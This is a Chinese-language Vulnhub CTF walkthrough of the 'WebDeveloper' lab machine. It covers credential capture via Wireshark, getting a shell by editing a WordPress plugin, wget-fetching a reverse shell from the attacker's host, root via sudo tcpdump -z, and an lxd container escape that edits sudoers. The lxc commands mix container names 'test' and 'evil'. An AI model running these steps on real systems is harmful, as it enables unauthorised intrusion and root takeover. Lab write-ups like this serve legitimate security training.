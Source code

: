 ```yaml
---
layout: post
title:  "vulnhub >_ WebDeveloper"
description: walkthrough
category: vulnhub
---
```

# WebDeveloper

![image-20200621201954952]({{ site.url }}/assets/WebDeveloper.assets/image-20200621201954952.png)



![image-20200621202010388]({{ site.url }}/assets/WebDeveloper.assets/image-20200621202010388.png)

![image-20200621202802738]({{ site.url }}/assets/WebDeveloper.assets/image-20200621202802738.png)

![image-20200621202834878]({{ site.url }}/assets/WebDeveloper.assets/image-20200621202834878.png)

Wireshark分析一下。找到登录时的发包内容及明文凭证

![image-20200621203407035]({{ site.url }}/assets/WebDeveloper.assets/image-20200621203407035.png)

```bash
webdeveloper
Te5eQg&4sBS!Yr$)wf%(DcAd
```

登录wp

![image-20200621203848874]({{ site.url }}/assets/WebDeveloper.assets/image-20200621203848874.png)

老套路，改404

![image-20200621204507068]({{ site.url }}/assets/WebDeveloper.assets/image-20200621204507068.png)

但是上传时出现错误

![image-20200621205352126]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205352126.png)



还有一种方法是修改插件内的php文件，也可以达成需要的效果

![image-20200621205258982]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205258982.png)

浏览器激活

```bash
http://10.10.10.141/wp-content/plugins/akismet/akismet.php
```



得到shell

![image-20200621205541654]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205541654.png)

基本枚举后在wp的设置中找到mysql凭证

![image-20200621205701460]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205701460.png)

```bash
webdeveloper
MasterOfTheUniverse
```

尝试密码复用

![image-20200621205827640]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205827640.png)

成功并且直接就发现可以sudo利用tcpdump

首先在tmp目录下下载我们预先在kali制作好的php reshell

![image-20200622212446204]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212446204.png)

```bash
wget http://192.168.43.66:8080/php-reshell.php
```

![image-20200622212511138]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212511138.png)

```bash
echo $'php /tmp/php-reshell.php' > /tmp/.evil
chmod +x /tmp/.evil
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.evil -Z root
```

![image-20200622212646331]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212646331.png)

![image-20200622212702056]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212702056.png)

![image-20200622212716943]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212716943.png)



还有另外一种提权方法



考虑到用户是lxd组成员

![image-20200621214618368]({{ site.url }}/assets/WebDeveloper.assets/image-20200621214618368.png)

可以尝试另外一种提权方法

参考https://reboare.github.io/lxd/lxd-escape.html

```bash
lxd init
lxc init ubuntu:16.04 test -c security.privileged=true
lxc config device add evil whatever disk source=/ path=/mnt/root recursive=true
lxc start evil
lxc exec evil bash
```

![image-20200621215411035]({{ site.url }}/assets/WebDeveloper.assets/image-20200621215411035.png)

一路回车默认即可





我们创建了一个lxc容器，为其分配了安全性特权，并将完整的磁盘安装在下/mnt/root

这时我们可以对容器内的所有内容进行控制和修改。我们有很多选择。比如修改passwd已增加root用户。也可以修改sudoers，让我们拥有的用户获得sudo 所有命令的权限。

这里我们修改sudoer

```bash
echo "%webdeveloper ALL=(ALL:ALL) ALL" >> /mnt/root/etc/sudoers
```

之后sudo su 即直接提权
